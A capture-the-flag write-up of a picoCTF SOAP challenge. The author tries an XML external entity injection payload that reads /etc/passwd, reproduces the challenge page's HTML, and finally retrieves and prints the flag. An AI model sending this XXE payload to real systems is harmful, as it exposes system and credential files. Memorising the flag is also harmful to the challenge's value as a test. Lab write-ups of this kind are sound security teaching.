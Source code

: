 # Simple Object Access Protocol (SOAP)
Objective: To read the /etc/passwd file through XML injection.
### Try 1:
Inspecting the packet requests sent when clicking on the links, we see requests something like 
```
"<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>"
```
trying
```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><data><ID>&xxe;</ID></data>"/ 
```
I get no response from the server
### Inspecting the front end of the website:
Tried inspecting the front end of the website, to check if any information that might prove useful
```
<!doctype html>
<html lang="en">
  <head>
    <!-- Required meta tags -->
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <!-- Bootstrap CSS -->
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css" integrity="sha384-Vkoo8x4CGsO3+Hhxv8T/Q5PaXtkKtu6ug5TOeNV6gBiFeWPGFN9MuhOf23Q9Ifjh" crossorigin="anonymous">

    <title>PicoCTF</title>
  </head>
  <body>

  <section class="jumbotron text-center">
    <div class="container">
      <h1>Computer Science</h1>
      <p class="lead text-muted">We have been ranked to be among the best universities in the world!</p>
    </div>
  </section>

  <div class="album py-5 bg-light">
    <div class="container">
<div class="row">

        <div class="col-md-4">
          <div class="card mb-4 shadow-sm">
              <img src="/static/image2.png" class="bd-placeholder-img
              card-img-top" width="100%" height="225">
            <div class="card-body">
                <p class="card-text"><b>Carnegie Mellon  University Africa</b> Offers 3 masters degree programs.</p>
              <div class="d-flex justify-content-between align-items-center">
                <div class="btn-group">
                    <form class="detailForm" action="/data" method="POST">
                        <input required type="hidden" name="ID" value="1">
                  <button type="submit" class="btn btn-sm
                      btn-outline-secondary">Details</button>
                    </form>
                </div>
              </div>
            </div>
          </div>
        </div>

        <div class="col-md-4">
          <div class="card mb-4 shadow-sm">
              <img src="/static/image3.png" class="bd-placeholder-img
              card-img-top" width="100%" height="225">
            <div class="card-body">
                <p class="card-text"><b> PicoCTF </b>
                A free Computer Security education program.</p>
              <div class="d-flex justify-content-between align-items-center">
                <div class="btn-group">
                    <form class="detailForm" action="/data" method="POST">
                        <input required type="hidden" name="ID" value="2">
                  <button type="submit" class="btn btn-sm
                      btn-outline-secondary">Details</button>
                    </form>
                </div>
              </div>
            </div>
          </div>
        </div>

        <div class="col-md-4">
          <div class="card mb-4 shadow-sm">
              <img src="/static/image1.png" class="bd-placeholder-img
              card-img-top" width="100%" height="225">
            <div class="card-body">
                <p class="card-text"><b>Upanzi Network</b> an inititiave aimed at driving financial inclusion.</p>
              <div class="d-flex justify-content-between align-items-center">
                <div class="btn-group">
                    <form class="detailForm" action="/data" method="POST">
                        <input required type="hidden" name="ID" value="3">
                      <button type="submit" class="btn btn-sm
                      btn-outline-secondary">Details</button>
                    </form>
              </div>
              </div>
            </div>
          </div>
        </div>

      <span id="detailsResult"></span>

    </div>
</div>

  <script src="/static/js/xmlDetailsCheckPayload.js"></script>
  <script src="/static/js/detailsCheck.js"></script>
    <!-- Optional JavaScript -->

    <!-- jQuery first, then Popper.js, then Bootstrap JS -->
    <script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n" crossorigin="anonymous"></script>
    <script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js" integrity="sha384-wfSDF2E50Y2D1uUdj0O3uMBJnjuUD4Ih7YwaYd1iqfktj0Uod8GCExl3Og8ifwB6" crossorigin="anonymous"></script>
  </body>
</html>
```
The website code revealed no vulnerabilities. Further researching lead me to a software called burp suite, a specialised tool to test website vulnerabilities. However using the repeater mode in burp suite also yielded no results. 
Turns out, it was my wifi router blocking the xxe disclosures. Trying the same injection again using my phone hotspot, I retrieved the flag.

flag-> picoCTF{XML_3xtern@l_3nt1t1ty_e5f02dbf}

